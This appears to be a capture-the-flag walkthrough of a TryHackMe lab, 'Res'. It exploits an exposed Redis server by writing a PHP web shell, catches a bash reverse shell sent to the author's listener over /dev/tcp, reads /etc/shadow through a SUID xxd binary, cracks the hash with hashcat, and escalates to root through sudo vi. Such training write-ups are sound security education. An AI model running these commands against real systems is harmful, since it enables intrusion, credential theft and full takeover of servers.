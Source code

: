 ```yaml
---
layout: post
title: Walkthrough - Res
published: true
---
```


SGBD, Enumeration, RCE, Cracking. Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

![](/assets/redis01.png)

[https://tryhackme.com/room/res](https://tryhackme.com/room/res)

* * *

## Scan the machine, how many ports are open?

- ``nmap -Pn -sS -p- 10.10.17.249 -vvv ``
- ``nmap -sC -sV -sT -O -p80,6379 10.10.17.249``

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Android 5.1 (92%), Linux 3.2 - 3.16 (92%), Linux 3.2 - 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

* * * 

## What's is the database management system installed on the server?

- Redis

* * * 

## What port is the database management system running on?

- 6379

* * * 

## What's is the version of management system installed on the server?

- 6.0.7

* * * 

## Compromise the machine and locate user.txt

- ``redis-cli -h 10.10.17.249`` - to connect to the redis server
- ``info server`` looking here in the server info we find a working directory for redis... ``executable:/home/vianka/redis-stable/src/redis-server``
-  because we can see the users home directory we should be able to import a genetateed rsa key into redis and login to it there.

1. Generate public key ``ssh-keygen -t rsa -f rsa``
2. Write the public key to a file ``(echo -e "\n\n"; cat ./rsa.pub; echo -e "\n\n") > foo.txt``
3. Import the file into redis ``cat foo.txt | redis-cli -h 10.10.17.249 -x set crackit``
4. Save the public key to the authorized_keys file on the redis server
5. whelp this doesnt work... The .ssh directory doesnt seem to be accesssible

So trying some other things our I end up finding the web directory.

```
10.10.17.249:6379> config set dir /var/www/html
OK
10.10.17.249:6379> config set dbfilename redis.php
OK
10.10.17.249:6379> set test "<?php phpinfo(); ?>"
OK
10.10.17.249:6379> save
OK
```

do we can vidit this page now on the webserver. lets alter it do we can get a php reverse shell

```
10.10.131.125:6379> config set dir /var/www/html
OK
10.10.131.125:6379> config set dbfilename shell.php
OK
10.10.131.125:6379> set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.2.127.225/6666 0>&1'\"); ?>"
OK
10.10.131.125:6379> save
OK
```

and catch the reverse shell

```
┌──(0xskar㉿cocokali)-[~]
└─$ pwncat -l 10.2.127.225 6666
whoami
www-data
ls -las
total 24
 4 drwxrwxrwx 2 root   root    4096 Aug  9 13:49 .
 4 drwxr-xr-x 3 root   root    4096 Sep  2  2020 ..
12 -rw-r--r-- 1 root   root   11321 Sep  2  2020 index.html
 4 -rw-r--r-- 1 vianka vianka   179 Aug  9 13:49 shell.php
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ 
```

![](/assets/redis02.png)

* * * 

## What is the local user account password?

```
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
```

If ``xxd`` has the suid bit set we can read files with it.

- ``xxd /etc/shadow | xxd -r``
- ``unshadow`` this file and then hashcat
- ``hashcat -m 1800 creds.unshadow /usr/share/seclists/Passwords/rockyou.txt ``

```
Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:beautiful1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
```

* * * 

## Escalate privileges and obtain root.txt

- ``su vianka``

```
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Easy enough...

- ``sudo vi -c ':!/bin/sh' /dev/null``

![](/assets/res03.png)

* * * 

